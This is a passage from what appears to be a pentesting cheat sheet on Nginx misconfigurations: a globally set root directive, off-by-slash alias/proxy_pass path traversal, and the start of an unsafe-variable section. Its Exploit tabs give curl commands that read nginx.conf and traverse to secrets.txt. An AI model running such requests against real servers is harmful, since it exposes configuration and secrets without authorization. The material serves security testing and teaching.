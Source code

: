 In the above example, the root folder is `/etc/nginx` which means that we can reach files within that folder. The configuration does not have a location for `/ (location / {...})`
{% endtab %}

{% tab title="Exploit" %}
Because of this missconfiguration in the previous example, the root directive will be globally set, meaning that requests to `/` will take you to the local path `/etc/nginx`.

```bash
#We can get sensitive files as the nginx.conf
curl http://example.com/nginx.conf
```
{% endtab %}
{% endtabs %}

### Off-By-Slash Misconfiguration

{% tabs %}
{% tab title="Enumeration" %}
With the Off-by-slash misconfiguration, it is possible to traverse one step up the path due to a missing slash.\
Inside the Nginx configuration look the "location" statements, if someone looks like:

```
#Missing slash with alias directive
location /imgs { 
    alias /path/images/;
}

#Missing slash with proxy_pass directive
location /api {
    proxy_pass http://apiserver/v1/;
}
```
{% endtab %}

{% tab title="Exploit" %}
Because of this missconfiguration in the previous example, there is an LFI vulnerability. `/imgs../secrets.txt` will be transform to `/path/images/../secrets.txt`

```bash
#We can get sensitive files
curl http://example.com/imgs/../../secrets.txt

curl http://example.com/api/../../secrets.txt
```
{% endtab %}
{% endtabs %}

### Unsafe Variable Use

{% tabs %}
{% tab title="Enumeration" %}
Some frameworks, scripts and Nginx configurations unsafely use the variables stored by Nginx. This can lead to issues such as XSS, bypassing HttpOnly-protection, information disclosure and in some cases even RCE.

